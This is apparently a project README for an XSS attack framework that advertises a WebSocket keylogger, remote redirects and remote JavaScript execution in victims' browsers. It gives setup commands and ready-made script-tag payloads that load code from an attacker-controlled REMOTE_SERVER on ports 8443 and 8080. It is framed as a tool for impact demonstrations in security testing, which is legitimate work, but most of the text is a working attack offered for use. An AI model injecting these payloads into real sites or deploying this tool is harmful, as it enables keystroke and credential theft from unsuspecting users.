 # XSS Controller

XSS Controller is a framework to deliver malicious javascript inside XSS payloads and make better PoC to demonstrate the impact of successful XSS exploration.

## Features

- KeyLogger via WebSocket
- Remote redirect
- Remote JavaScript Execution

## Setup

```bash
./setup.sh
npm i
```

## Running

```bash
npm start
```

Inject XSS payload to invoke remote javascript.

```html
<script src="https://REMOTE_SERVER:8443/"></script>
```

```html
<script src="http://REMOTE_SERVER:8080/"></script>
```

By default the server is up in 8080 port to HTTP Server and 8443 to HTTPS.
This config can be changed in `/app/server.js` in config variable.

```js
// Config ports to listen on
const config = {
  HTTPS_PORT: 8443,
  HTTP_PORT: 8080,
  WEB_SOCKET_PORT: 3000,
};
```

## Execution

```bash
npm i
npm start
```

## Inspíration

This project was created based on [xss-keylogger](https://github.com/hadynz/xss-keylogger) by [hadynz](https://twitter.com/hadynz).
